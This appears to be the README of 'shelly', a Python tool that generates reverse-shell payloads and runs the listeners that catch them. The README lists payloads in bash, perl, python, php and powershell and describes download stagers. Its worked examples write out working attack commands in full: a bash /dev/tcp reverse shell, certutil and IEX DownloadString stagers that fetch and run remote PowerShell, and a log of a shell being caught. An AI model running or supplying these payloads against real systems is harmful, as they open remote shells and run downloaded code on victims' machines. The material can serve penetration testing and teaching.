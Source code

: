 # shelly
(mainly reverse shell) payload generator (and shell catcher) written in python2.7

Tool created to automate the creation of payloads to get a reverse shell, making easier to encode it, or serve it using a stager. It's made in a way that is very easy to add more payloads, stagers and connectors.

### Payloads
* reverse_icmp_powershell
* reverse_tcp6_python
* reverse_tcp_bash
* reverse_tcp_bash_setsid (using setsid)
* reverse_tcp_netcatbsd (no -e option)
* reverse_tcp_netcatbsd_noamp (no -e option, not using &)
* reverse_tcp_openssl (encrypts connection)
* reverse_tcp_openssl_noamp (encrypts connection, not using &)
* reverse_tcp_perl
* reverse_tcp_perl_noamp (not using &)
* reverse_tcp_php
* reverse_tcp_phpmonkey (oneliner based on pentest monkeys php rev shell)
* reverse_tcp_powercat (powershell, stager required)
* reverse_tcp_powershell
* reverse_tcp_python
* reverse_tcp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)
* reverse_tcp_ruby
* reverse_socat_ssl
* reverse_udp_dnscat2 (powershell, stager required)
* reverse_udp_netcatbsd (no -e option)
* reverse_udp_perl
* reverse_udp_python
* reverse_udp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)

### Stagers
Various techinques used to deliver staged payloads. Only http at the moment:
* certutil & powershell -ep bypass -nop -f
* certutil & type 2 powershell -nop -
* echo IEX Webclient 2 powershell -nop -


### Connectors
Connectors are the confguration settings that allow to chatch the shell executed for the payload
* reverse_icmp_icmpsh (require have installed icmpsh and setup the connector file with correct path, elevated privs)
* reverse_tcp6_netcat
* reverse_tcp_ncat_ssl
* reverse_tcp_netcat
* reverse_tcp_openssl
* reverse_socat_ssl
* reverse_udp_dnscat2 (require have ruby + server installed and working prior to use it)
* reverse_udp_netcat

## Installation
* ```git clone https://github.com/ompamo/shelly.git```
* configure BASE_PATH on 'shelly' file. Default: /opt/shelly
* ```ln -s /opt/shelly/shelly /usr/local/bin/shelly```
* To enable bash-completion add to your ~/.bashrc file: ```eval "$(register-python-argcomplete shelly)"```
* Install required libs:```pip install -r requirements.txt```

## Extra features
* Auto copy payloads to paperclip (xclip required)
* Generate urlencoded payloads

## Examples
* Generating a reverse tcp bash shell payload
```
root@kali:/opt/shelly# ./shelly rev --payload reverse_tcp_bash --lhost 10.0.2.11 --lport 1234
[*] Payload generated:
/bin/bash -i >& /dev/tcp/10.0.2.11/1234 0>&1
```
* Getting the info for that payload
```
root@kali:/opt/shelly# ./shelly show payload reverse_tcp_bash
[*] bash TCP reverse shell payload
    Info          : bash command to spawn a reverse shell. No special opts required.
    Required Opts : ['LHOST', 'LPORT']
    Connector     : reverse_tcp_netcat
    Payload       : /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Checking stager info and spawning a PS reverse shell using a web stager on port 8080 and catching the shell
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_certutil_type2powershell --sport 8080 --param1 c:\\Windows\\Tasks --listen 
[*] Payload generated:
certutil -urlcache -split -f http://10.0.2.11:8080/dJaBEjxo1r c:\Windows\Tasks\dJaBEjxo1r.txt & type c:\Windows\Tasks\dJaBEjxo1r.txt | powershell -nop -
[*] Serving stage at port 8080
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 1 of 2 sent
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 2 of 2 sent

[*] Reverse TCP Netcat listener - No additional info
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.0.2.4 49196 received!

PS C:\> 

```
* Also we can get it urlencoded (to work with ie with curl or other tools)
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_echo2powershell --urlencode -l
[*] Payload generated:
echo%20IEX%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A%2F%2F10.0.2.11%3A80%2Fu5KWfOkL6b%27%29%20%7C%20powershell%20-nop%20-
[*] Serving stage at port 80
...
```
## Creating you own...
### Payloads
```
title=bash TCP reverse shell payload
info=bash command to spawn a reverse shell. No special opts required.
required_opts=LHOST;LPORT
connector=reverse_tcp_netcat
payload=/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
Available params: LHOST, LPORT, PARAM1, PARAM2
required contains the required parameters for the payload.
Use an existent connector.
If you need to configure a mulltilne payload (used with stagers), use multiline. Next payload and finish with %%payload_end%%

### Connectors
```
title=OpenSSL listener (encrypted)
info=If not working generate/create new cert in aux: openssl req -x509 -newkey rsa:1024 -keyout key.pem -out cert.pem -days 365 -nodes
required_opts=LPORT
app=/usr/bin/openssl
params=s_server;-quiet;-key;/opt/shelly/repo/auxiliary/key.pem;-cert;/opt/shelly/repo/auxiliary/cert.pem;-port;LPORT
pre_exec=
```
Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
Available params: LHOST, LPORT, PARAM1, PARAM2
required_opts contains the required parameters for the connector.
app contains connector binary path.
params passed to the connector splitted by semicolons.
pre_exec will contain a command executed just before launching the connector.

### Stagers
Only HTTP stagers working  at the  moment.
```
title=echo 2 powershell -nop -
info=Download the payload using powershell code echoed to powershell -nop -
required_opts=LHOST;SPORT
http_requests=1
payload=echo IEX(New-Object Net.WebClient).DownloadString('http://LHOST:SPORT/FILENAME') | powershell -nop -
```
Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
Available params: LHOST, SPORT, PARAM1, PARAM2
required_opts contains the required parameters for the stager.
http_resquests usually mus be 1, if not working try 2 or higher value.

### External scripts used on this project as payloads
* [PowerCat.ps1](https://github.com/besimorhino/powercat) from Besimorinho
* [Inovke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang) from Samratashok
* [dnscat2.ps1](https://github.com/lukebaggett/dnscat2-powershell) from Luke Bagget
* [php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) from PentestMonkey
